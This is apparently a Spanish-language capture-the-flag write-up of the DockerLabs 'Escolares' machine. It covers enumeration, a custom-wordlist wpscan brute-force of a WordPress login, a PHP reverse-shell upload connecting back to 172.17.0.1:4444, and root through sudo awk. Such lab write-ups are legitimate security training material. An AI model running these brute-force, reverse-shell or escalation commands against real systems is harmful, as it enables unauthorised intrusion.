

repository: scarlgyx/scarlgyx-cybersecurity · page: writeups/dockerlabs/escolares/index.html · generator: mkdocs

# Escolares

*22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13 (Ubuntu Linux; protocol 2.0)*
*80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))*

Gobuster -> /assets, /wordpress, /phpmyadmin

Con msfconsole al usar *auxiliary(scanner/http/wordpress_login_enum* se detecta la versión de Wordpress 6.5.4

En /contacto vemos que en F12 se da info:

```text
INFORMACION DEL PERSONAL
```


```text
./profesores.html
```

Entrando en /profesores.html se descubre que Luis ;) es el admin wordpress -> puede ser info

En /wordpress se ve que se ha añadido un texto:
*Jun 8, 2024 --- por **luisillo** en **Sin categoría*** -> luisillo puede ser el user

Gobuster más exhaustivo en directorio http://172.17.0.2/wordpress
`gobuster dir -u http://172.17.0.2/wordpress -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -t 30 -x php,html,js,txt`
Encontramos un **wp-login.php**

Se nos dice que falta **escolaes.dl** -> agregar en /etc/hosts -> ahora carga bien pero seguimos sin saber credenciales

Vamos ahora a otro archivo ***xmlrpc.php*** -> es un archivo vulnerable por fuerza bruta conocido de Wordpress

usaremos wpscan (Wordpress scan) y como ninguna contraseña por defecto va a funcionar, nos crearemos un diccionario personalizado con los datos de luis que conocemos
**cupp**

![](../../assets/img/Pasted_image_20251010124230.png)

Ejecutamos el ataque con wpscan y ese diccionario:
`wpscan --url http://172.17.0.2/wordpress -U luisillo --passwords luis.txt`
**Luis1981**

Entramos a wordpress y en WP File Manager podremos subir un archivo con una revshell para ganar acceso a la máquina

![](../../assets/img/Pasted_image_20251010131056.png)

`<?php exec("bash -c 'bash -i >&/dev/tcp/172.17.0.1/4444 0>&1'"); ?>`
Abrimos la url en el buscador http://172.17.0.2/wordpress/sh3ll.php
**www-data**
`script /dev/null -c bash`
*CTRL+Z*
`stty raw -echo; fg`
`reset`
`xterm`
`export TERM=xterm`
`export SHELL=/bin/bash`
`stty rows 16 columns 184`

## Escalada

Si miramos en el /home de www-data, vemos un *secret.txt* que contiene la password del usuario luisillo
**luisillopasswordsecret**
**luisillo**

*(ALL) NOPASSWD: /usr/bin/awk*
`sudo -u root awk 'BEGIN {system("/bin/sh")}'`
**root**
